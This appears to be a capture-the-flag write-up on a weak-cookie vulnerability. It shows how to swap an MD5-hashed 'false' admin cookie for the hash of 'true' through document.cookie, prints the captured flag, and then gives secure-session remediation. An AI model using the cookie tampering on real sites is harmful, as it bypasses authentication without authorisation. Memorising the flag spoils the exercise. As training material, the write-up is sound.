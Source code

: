 # Cookie Weak Encryption Vulnerability

## 🎯 Overview
This vulnerability demonstrates weak cookie encryption using MD5 hashing for authentication control. The application uses a predictable cookie value to determine admin privileges, making it susceptible to manipulation.

## 🔍 Vulnerability Details
- Cookie Name: `I_am_admin`
- Original Hash: `68934a3e9455fa72420237eb05902327`
- Decrypted Value: `false`
- Exploited Hash: `b326b5062b2f0e69046810717534cb09` (MD5 of "true")

## ⚔️ Exploitation Process

### 1. Cookie Analysis
```javascript
// Original cookie value
document.cookie
// "I_am_admin=68934a3e9455fa72420237eb05902327"
```

### 2. Hash Decryption
- Tool Used: [MD5decrypt.net](https://md5decrypt.net)
- Input Hash: `68934a3e9455fa72420237eb05902327`
- Decrypted Value: `false`

### 3. Exploitation Steps
1. Generate MD5 hash of "true"
2. Replace cookie value with new hash
3. Reload the page

```javascript
// Set manipulated cookie
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```

### Attack Result
**Flag**: df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

## 🛡️ Security Issues Identified
1. Weak hashing algorithm (MD5)
2. Predictable cookie values
3. Client-side authentication control
4. No server-side validation
5. Lack of secure session management

## 🔒 Recommended Security Fixes

### 1. Implement Secure Session Management
```python
# Example using secure session management
from flask import session
import secrets

def create_secure_session():
    session['session_id'] = secrets.token_hex(32)
    session['user_role'] = 'user'
    session.permanent = True
```

### 2. Use Strong Hashing Algorithms
```python
# Example using bcrypt
import bcrypt

def hash_password(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt)
```

### 3. Security Measures Checklist
- [ ] Implement proper session management
- [ ] Use secure hashing algorithms (bcrypt/Argon2)
- [ ] Set secure cookie attributes
- [ ] Implement server-side validation
- [ ] Use HTTPS for all connections
- [ ] Implement proper authentication flow

### 4. Secure Cookie Configuration
```python
# Example secure cookie settings
app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Strict',
    PERMANENT_SESSION_LIFETIME=timedelta(minutes=30)
)
```

## 📝 Best Practices for Cookie Security

### Cookie Attributes
```http
Set-Cookie: session=123456; 
    Secure; 
    HttpOnly; 
    SameSite=Strict; 
    Path=/; 
    Domain=example.com
```

### Session Management
- Use server-side sessions
- Implement session timeout
- Rotate session IDs
- Validate session data
- Implement proper logout

## 📚 Additional Resources
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [OWASP Secure Cookie Attributes](https://owasp.org/www-community/controls/SecureCookieAttribute)
- [Cryptographic Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.